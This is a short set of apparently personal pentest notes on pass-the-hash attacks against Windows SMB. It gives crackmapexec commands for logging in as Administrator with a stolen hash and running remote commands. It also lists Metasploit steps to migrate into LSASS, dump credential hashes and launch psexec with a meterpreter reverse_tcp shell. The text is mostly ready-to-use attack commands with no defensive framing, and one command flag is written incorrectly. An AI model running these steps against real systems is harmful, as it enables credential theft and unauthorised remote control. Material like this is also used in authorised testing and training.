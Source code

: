 # Pass the Hash Technique
We can use to authenticate with system legitimately using SMB  
This can be completed with just the hash  

## Crackmapexec
```crackmapexec smb (ip address) -u Administrator -H "(hash in quotes)"```  
Running commands  
```crackmapexec smb (ip address) -u Administrator -H "(hash in quotes)" +x "ipconfig"```

## Metasploit  

**Retrieve system hashes**
1. Migrate to LSASS process
2. getuid to verify NT Authority privileges command
3. ```hashdump```

Module: **exploit/windows/smb/psexec**  
1. set payload to target  - ```set payload windows/x64/meterpreter/reverse_tcp```
2. Copy the hash (not the colons)
3. set SMBUser (User)
4. set SMBPass (enter the hash)
5. Run
